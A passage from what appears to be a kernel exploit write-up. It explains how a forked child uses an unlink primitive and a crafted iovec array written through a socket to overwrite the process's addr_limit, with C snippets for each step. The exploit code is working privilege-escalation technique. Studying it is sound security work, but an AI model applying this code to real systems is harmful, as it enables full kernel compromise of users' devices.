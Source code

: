 The memory layout will be the same as the one after the unlink done by `task_struct_leak`:

<img src="https://github.com/cutesmilee/cutesmilee.github.io/raw/main/images/unlink_kptr_write.png" alt="unlink_kptr_write" style="zoom:50%;" />

Now the child calls `write()` passing `final_sock_data` as data to send.

```c
pid_t child = fork();

if (!child) {
    /* used to avoid race conditions */
    sleep(2);
    unlink_kptr_write();
	  nBytesWritten = write(WRITE_SOCK, final_sock_data, sizeof(final_sock_data));
    [...]
}
```

Let's look at what data are sent through `write()`:

```c
unsigned long final_sock_data[] = {
						0x1,                                        // iovec[IOVEC_OVERLAP_INDEX].iov_len
            0x41414141,                                 // iovec[IOVEC_OVERLAP_INDEX + 1].iov_base
            0x8 + 0x8 + 0x8 + 0x8,                      // iovec[IOVEC_OVERLAP_INDEX + 1].iov_len
            task_struct_kptr + ADDR_LIMIT_OFFSET,       // iovec[IOVEC_OVERLAP_INDEX + 2].iov_base
            0x8,                                        // iovec[IOVEC_OVERLAP_INDEX + 2].iov_len
            0xFFFFFFFFFFFFFFFE                          // addr_limit value to write
};
```

